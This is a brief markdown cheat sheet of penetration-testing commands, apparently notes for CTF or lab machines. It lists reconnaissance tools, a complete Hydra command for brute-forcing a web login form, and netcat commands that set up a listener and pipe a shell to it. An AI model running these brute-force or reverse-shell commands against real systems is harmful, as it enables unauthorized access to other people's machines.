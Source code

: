 ## Information gathering

- `nmap`, `nikto`
- `gobuster`, `dirbuster`
- `robots.txt`

## Hydra post bruteforce

`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

## Netcat reverse shell

- Listen : `nc -lvnp 5555`
- Start shell : `/bin/sh | nc 127.0.0.1 5555`